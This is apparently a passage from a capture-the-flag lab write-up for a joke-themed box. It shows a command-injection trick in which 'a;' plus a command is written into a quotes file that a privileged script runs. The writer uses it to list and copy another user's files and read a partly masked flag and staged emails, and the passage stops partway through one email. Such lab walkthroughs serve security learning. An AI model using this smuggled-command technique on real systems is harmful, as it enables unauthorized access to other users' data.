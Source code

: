 Let's explore cage's home:

```bash
$ echo "a;ls /home/cage > /tmp/asd.txt" > /opt/.dads_scripts/.files/.quotes


weston@national-treasure:~$ cat /tmp/asd.txt
email_backup
Super_Duper_Checklist
```

## User flag

```bash
weston@national-treasure:~$ echo "a;cp /home/cage/* /tmp" > /opt/.dads_scripts/.files/.quotes

weston@national-treasure:~$ cat /tmp/Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_XXXXXXX}
```

## privesc

Let's explore the three email message in `/home/cage/email_backup` folder:

```bash
$ echo "a;cp -r /home/cage/email_backup /tmp/" > /opt/.dads_scripts/.files/.quotes
```

```
weston@national-treasure:/tmp/email_backup$ cat email_1
From - SeanArcher@BigManAgents.com
To - Cage@nationaltreasure.com

Hey Cage!

There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the
planning stages at the moment. I've put a good word in for you, if you're lucky we
might be able to get you a part of an angry shop keeping or something? Would you be up
for that, the money would be good and it'd look good on your acting CV.

Regards

Sean Archer
```

```
weston@national-treasure:/tmp/email_backup$ cat email_2
From - Cage@nationaltreasure.com
To - SeanArcher@BigManAgents.com

Dear Sean

We've had this discussion before Sean, I want bigger roles, I'm meant for greater things.
Why aren't you finding roles like Batman, The Little Mermaid(I'd make a great Sebastian!),
the new Home Alone film and why oh why Sean, tell me why Sean. Why did I not get a role in the
new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films.
I could of made them great... great Sean.... I think you're missing my true potential.

On a much lighter note thank you for helping me set up my home server, Weston helped too, but
not overally greatly. I gave him some smaller jobs. Whats your username on here? Root?

Yours

```